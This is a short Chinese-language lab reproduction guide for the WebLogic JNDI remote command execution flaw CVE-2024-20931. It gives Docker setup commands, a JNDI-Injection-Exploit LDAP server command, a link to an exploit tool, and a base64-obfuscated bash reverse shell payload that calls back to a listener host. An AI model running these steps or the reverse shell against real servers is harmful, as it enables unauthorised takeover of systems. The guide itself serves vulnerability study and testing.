




# Weblogic JNDI命令执行漏洞(CVE-2024-20931)

在Oracle发布的2024年1月补丁中，成功修复了一个基于Weblogic T3\IIOP协议的远程命令执行漏洞CVE-2024-20931。此漏洞在2023年10月向Oracle报告，本质上是CVE-2023-21839补丁的一种绕过，牵涉到一个新的JNDI攻击面。存在此漏洞将可导致服务器被接管，可进行远程命令执行获取服务器控制权限。

参考链接：

- https://github.com/dinosn/CVE-2024-20931
- https://nvd.nist.gov/vuln/detail/CVE-2024-20931


## 漏洞环境


执行如下命令启动一个Weblogic 服务：

```
#下载镜像
docker pull ismaleiva90/weblogic12

#启动环境
docker run -dit -p 7001:7001 -p 7002:7002 --restart=always ismaleiva90/weblogic12:latest
```

## 漏洞复现

1，准备ldap服务

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "执行的命令"
```



2，下载利用工具：https://github.com/dinosn/CVE-2024-20931



3，查看利用结果




反弹shell利用方式

```shell
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC42Ni42NC4xMDYvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}"
```

